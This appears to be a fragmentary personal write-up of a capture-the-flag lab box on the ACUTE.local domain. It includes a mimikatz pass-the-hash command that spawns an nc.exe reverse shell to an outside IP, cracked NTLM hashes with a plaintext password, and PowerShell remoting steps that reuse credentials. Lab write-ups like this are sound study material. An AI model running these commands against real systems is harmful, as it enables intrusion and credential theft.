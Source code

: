 Weird can't re run:
![](cantrerunregqc.png)

Need to strech and then have more relax hour to finish this one off while I wait for other background stuff to finish other boxes. From [2:47:34](https://www.youtube.com/watch?v=IRSm7kalGPY&t=10030s)

![](weareadmin.png)

We are only local admin not domain admin. 
![](transfermimikatz.png)

Important findings
![](datmarvel.png)

Al could have just used the builtin feature in mimikatz to run commands.
```powershell
sekurlsa::pth /user:Adminstrator /domain:ACUTE.local /ntlm:a29f7623fd11550def0192de9246f46b:a29f7623fd11550def0192de9246f46b /run:'C:\utils\nc.exe -e cmd 10.10.14.109 8890'
```

![](attemptOne.png)
Delphine says it needs to be run server side, so I assume that given we are in a virtual machine on top of the dc it work overpass the hash.

Al cracks the hashes kindly and performs password reuse attacks, while i tried debugging mimikatz.
```
Natasha : 29ab86c5c4d2aab957763e5c1720486d
Administrator : Password@123 : a29f7623fd11550def0192de9246f46b
```

Seems like Al is very tired at this point. Migrate my raised eyebrows to 0xDF
![](passwordreuseissomethingImusttryevenforanycrackedpasswords.png)
The script that triggered Al
![](anotherscriptthetriggeral.png)

Always Check custom administrator groups; callback to the Word.doc
![](customadmingroups.png)

Returning to finish this box.
```powershell
$pass = ConvertTo-SecureString "Password@123" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential("ACUTE\awallace", $pass)
Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock { whoami } 
```

![](acuteawallace.png)

```powershell
Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock { cat 'C:\program files\keepmeon\keepmeon.bat'
```
